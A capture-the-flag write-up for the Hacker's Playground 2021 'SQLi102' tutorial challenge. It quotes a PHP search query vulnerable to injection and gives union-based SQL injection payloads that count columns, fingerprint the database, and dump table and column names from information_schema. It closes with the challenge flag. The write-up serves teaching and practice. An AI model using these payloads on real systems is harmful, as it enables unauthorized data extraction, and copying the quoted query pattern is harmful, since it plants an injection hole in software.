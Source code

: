 # SQLi102

## Description

```
This is the next lesson of SQLi 101.

The server is running at: http://sqli102.sstf.site/step3.php.

This is a tutorial challenge from Hacker's Playground 2021.
If you are not sure how to solve this,
please refer to the tutorial guide(Eng | Kor).
```

## Solution
We can see a search form and the hint, which gives the source code of this page.

![](images/main.png)

It seems there is a classic SQLi and we need to investigate the DB schema.

```php
    $query = "select * from books where title like '%".$_GET['searchkey']."%'";
```

Since it shows all matching results, we could try union-based SQLi. We first examine how many columns are in the table.

```sql
' AND false UNION SELECT 1,2,3,4,5,6,7,8-- -
```

With the above query, we can get search results like below. Let's pull out the interesting data into `Title` column.

![](images/union_sqli.png)

We can fingerprint the DB and figure out it is `MySQL`-like DB since `version()` works like below.

```sql
' AND false UNION SELECT 1,version(),3,4,5,6,7,8-- -
```

![](images/fingerprint.png)

We can extract hidden table `findme` like below.

```sql
' AND false UNION SELECT 1,(SELECT group_concat(concat(table_schema,'.',table_name)) FROM information_schema.tables WHERE table_schema!='information_schema'),3,4,5,6,7,8-- -
```

![](images/tables.png)

Also, we can extract columns of the `findme` table, which is the flag, like below.

```sql
' AND false UNION SELECT 1,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='findme'),3,4,5,6,7,8-- -
```

![](images/columns.png)

## Flag
`SCTF{b451c_SQLi_5k1lls}`
